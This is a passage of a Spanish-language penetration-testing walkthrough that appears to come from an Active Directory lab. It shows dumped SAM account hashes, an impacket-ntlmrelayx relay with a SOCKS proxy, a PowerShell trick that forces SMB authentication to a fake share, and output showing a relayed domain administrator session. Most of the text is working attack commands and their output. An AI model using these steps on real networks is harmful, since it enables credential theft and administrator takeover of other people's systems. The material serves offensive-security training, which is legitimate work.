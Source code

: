 ```
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5ed544e71abe56b376b7993b21946520:::
santiago:1001:aad3b435b51404eeaad3b435b51404ee:7ce21f17c0aee7fb9ceba532d0546ad6:::
[*] Done dumping SAM hashes for host: 192.168.5.208
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```

Vemos que hemos sacado informacion del `Administrador` volcando tambien la `SAM`.

Pero no solo podemos hacer esto, si no que tambien podremos ejecutar un comando redirijiendolo a un `proxy`.

```shell
impacket-ntlmrelayx -smb2support -tf targets.txt -socks
```

Ahora cuando de nuevo cualquier usuario se conecte de forma erronea a un recurso compartido, pasara que se nos creara una conexion activa en `SOCKS`.

Por lo que ejecutamos esto en `DC01` como el usuario `Administrador`, pero puede ser bajo cualquier usuario, funciona con caulquiera.

```powershell
dir \\fhuisjf\c$
```

Esto nos dara un error como esperamos y si volvemos a donde tenemos la escucha del servidor del `socks` veremos lo siguiente:

```
[*] Received connection from CORP/Administrator at DC01, connection will be relayed after re-authentication
[]
[*] SMBD-Thread-13 (process_request_thread): Connection from CORP/ADMINISTRATOR@192.168.5.5 controlled, attacking target smb://192.168.5.208
[*] Authenticating against smb://192.168.5.208 as CORP/ADMINISTRATOR SUCCEED
[*] SOCKS: Adding CORP/ADMINISTRATOR@192.168.5.208(445) to active SOCKS connection. Enjoy
[*] All targets processed!
[*] SMBD-Thread-13 (process_request_thread): Connection from CORP/ADMINISTRATOR@192.168.5.5 controlled, but there are no more targets left!
```

Tendremos que pulsar `ENTER` y veremos el siguiente `prompt`:

```
ntlmrelayx>
```

Ejecutamos dentro de esta interfaz el comando `socks` y veremos que tendremos una sesion activa de la siguiente forma:

```shell
ntlmrelayx> socks
```

Info:

```
Protocol  Target         Username            AdminStatus  Port 
--------  -------------  ------------------  -----------  ----
SMB       192.168.5.208  CORP/ADMINISTRATOR  TRUE         445
```
